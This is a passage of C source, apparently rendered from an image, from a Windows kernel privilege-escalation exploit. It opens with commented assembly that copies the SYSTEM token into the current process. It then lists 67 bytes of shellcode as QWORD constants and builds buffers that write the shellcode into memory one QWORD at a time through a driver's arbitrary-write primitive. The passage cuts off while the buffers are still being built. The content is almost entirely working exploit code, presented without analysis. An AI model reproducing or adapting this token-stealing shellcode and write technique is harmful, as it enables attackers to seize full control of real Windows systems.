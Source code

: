 ```c

						mov rcx, [rbx + 0x360]	  ; SYSTEM token is @ offset _EPROCESS + 0x360
						and cl, 0xf0			  ; Clear out _EX_FAST_REF RefCnt
						mov [rax + 0x360], rcx	  ; Copy SYSTEM token to current process

						xor rax, rax			  ; set NTSTATUS STATUS_SUCCESS
						ret						  ; Done!

				*/

				// One QWORD arbitrary write
				// Shellcode is 67 bytes (67/8 = 9 unsigned long longs)
				unsigned long long shellcode1 = 0x00018825048B4865;
				unsigned long long shellcode2 = 0x000000B8808B4800;
				unsigned long long shellcode3 = 0x02F09B8B48C38948;
				unsigned long long shellcode4 = 0x0002F0EB81480000;
				unsigned long long shellcode5 = 0x000002E88B8B4800;
				unsigned long long shellcode6 = 0x8B48E57504F98348;
				unsigned long long shellcode7 = 0xF0E180000003608B;
				unsigned long long shellcode8 = 0x4800000360888948;
				unsigned long long shellcode9 = 0x0000000000C3C031;

				// Buffers to send to the driver (write primitive)
				unsigned long long inBuf3[4];
				unsigned long long inBuf4[4];
				unsigned long long inBuf5[4];
				unsigned long long inBuf6[4];
				unsigned long long inBuf7[4];
				unsigned long long inBuf8[4];
				unsigned long long inBuf9[4];
				unsigned long long inBuf10[4];
				unsigned long long inBuf11[4];

				// Values to send
				unsigned long long one3 = 0x4141414141414141;
				unsigned long long two3 = shellcodeLocation;
				unsigned long long three3 = 0x0000000000000000;
				unsigned long long four3 = shellcode1;

				unsigned long long one4 = 0x4141414141414141;
				unsigned long long two4 = shellcodeLocation + 0x8;
				unsigned long long three4 = 0x0000000000000000;
				unsigned long long four4 = shellcode2;

				unsigned long long one5 = 0x4141414141414141;
				unsigned long long two5 = shellcodeLocation + 0x10;
				unsigned long long three5 = 0x0000000000000000;
				unsigned long long four5 = shellcode3;

				unsigned long long one6 = 0x4141414141414141;
				unsigned long long two6 = shellcodeLocation + 0x18;
				unsigned long long three6 = 0x0000000000000000;
				unsigned long long four6 = shellcode4;

				unsigned long long one7 = 0x4141414141414141;
				unsigned long long two7 = shellcodeLocation + 0x20;
				unsigned long long three7 = 0x0000000000000000;
				unsigned long long four7 = shellcode5;

				unsigned long long one8 = 0x4141414141414141;
				unsigned long long two8 = shellcodeLocation + 0x28;
				unsigned long long three8 = 0x0000000000000000;
				unsigned long long four8 = shellcode6;
```